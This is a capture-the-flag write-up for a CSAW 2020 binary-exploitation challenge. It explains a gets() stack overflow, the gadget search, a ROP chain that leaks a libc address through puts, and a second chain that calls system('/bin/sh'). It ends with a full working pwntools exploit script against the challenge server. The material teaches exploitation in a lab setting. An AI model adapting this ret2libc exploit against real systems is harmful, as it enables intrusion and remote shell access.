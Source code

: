 ## The Problem

Welcome to pwn!
```nc pwn.chal.csaw.io 5016```

[rop](https://github.com/fweefwop/writeups/blob/master/csaw20/rop)       
[libc.2.27](https://github.com/fweefwop/writeups/blob/master/csaw20/libc-2.27.so)

## The Beginning
This is a classic ret2lib binary exploitation problem. Source code is not given so we need to use Cutter to see the code.

The ```main``` looks like this:       

```
undefined8 main(void)
{
    char *s;
    
    init();
    puts("Hello");
    gets(&s);
    return 0;
    }
```

## Get gadgets
Use ```ROPgadget --binary rop | grep "ret"``` to get ```ret``` address ```0x40048e```        

## Or automatically get them through pwn
Like this:
```
poprdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
```
## Find plt address for 
```
_libc_start_main_ptr = elf.symbols['__libc_start_main']
puts = elf.symbols['puts']
main = elf.symbols["main"]

```

## Create 1st rop 
The first rop is used to leak libc base address.

```
rop = base + p64(poprdi) + p64(_libc_start_main_ptr) + p64(puts) + p64(main)

```

After sending in the rop through ``` p.sendline(rop)```, we will receive an address back. This is the leaked ```main``` address.

We used ```bytes_to_long(received[-2: :-1])``` to process the address and put it into ```leaked```.
Then use this leaked to construct second rop!

## Construct second rop
We can get libc base address through ``` leaked - libc.sym["__libc_start_main"] ``` and assign it to ```libc.address```.    
```libc = ELF("libc-2.27.so")``` which is given. This libc is machine dependent. You can find out which libc you are using by ```ldd rop```, and set libc accordingly. 

The second rop is like this:
```
rop = base + p64(poprdi) + p64(next(libc.search(b"/bin/sh"))) + p64(ret) + p64(libc.symbols["system"])

```

## Original Script

```
from pwn import *
from Crypto.Util.number import *

p = remote('pwn.chal.csaw.io', 5016)
#p = process("rop")
libc = ELF("libc-2.27.so")

elf = ELF("rop")
rop = ROP(elf)

base = b"A"*40
ret = 0x40048e
poprdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
_libc_start_main_ptr = elf.symbols['__libc_start_main']
puts = elf.symbols['puts']
main = elf.symbols["main"]

log.info("rdi:"+hex(poprdi))
log.info("_libc_start:"+hex(_libc_start_main_ptr))
log.info("puts:"+hex(puts))

rop = base + p64(poprdi) + p64(_libc_start_main_ptr) + p64(puts) + p64(main)
log.info("Sending 1st payload: \n{}".format(hexdump(rop)))

p.recvline()
p.sendline(rop)

recieved = p.recvline()
leaked = bytes_to_long(recieved[-2: : -1])

log.info("address of leaked:"+hex(leaked))

libc.address = leaked - libc.sym["__libc_start_main"]
log.info("address of libc:" + hex(libc.address))

rop = base + p64(poprdi) + p64(next(libc.search(b"/bin/sh"))) + p64(ret) + p64(libc.symbols["system"])
log.info("Sending real payload: \n{}".format(hexdump(rop)))

p.recvline()
p.sendline(rop)

p.interactive()
```
